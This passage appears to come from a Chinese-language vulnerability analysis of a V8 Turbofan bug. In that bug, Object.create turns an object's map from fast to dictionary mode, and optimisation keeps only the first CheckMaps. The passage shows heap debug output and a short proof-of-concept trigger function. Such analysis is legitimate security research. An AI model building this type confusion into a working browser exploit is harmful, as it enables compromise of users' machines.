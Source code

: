 ```plain
- layout descriptor: (nil)  
- prototype: 0x1c4b472046d9 <Object map = 0xa49d63822f1>  
- constructor: 0x1c4b47204711 <JSFunction Object (sfi = 0x7f20588f991)>  
- dependent code: 0x20bfb0802391 <Other heap object (WEAK_FIXED_ARRAY_TYPE)>  
- construction counter: 0
```

可以看到，在执行之前，map的类型为`FastProperties`，但是在执行之后map的类型是`DictionaryProperties`。如果`f`经过Turbofan的优化，只保留了第一次的`CheckMaps`，则会导致后一次程序使用fast mode去寻找dictionary mode中的元素，产生错误。再次修改poc，并观察Turbofan的优化过程。

```plain
function vuln(obj) {
  obj.a;
  Object.create(obj)
  return obj.b;
}

vuln({a:42, b:43});
vuln({a:42, b:43});
%OptimizeFunctionOnNextCall(vuln);
vuln({a:42, b:43});
```

首先查看初始的IR图，在每一次`LoadField`之前都进行了`CheckMaps`操作。

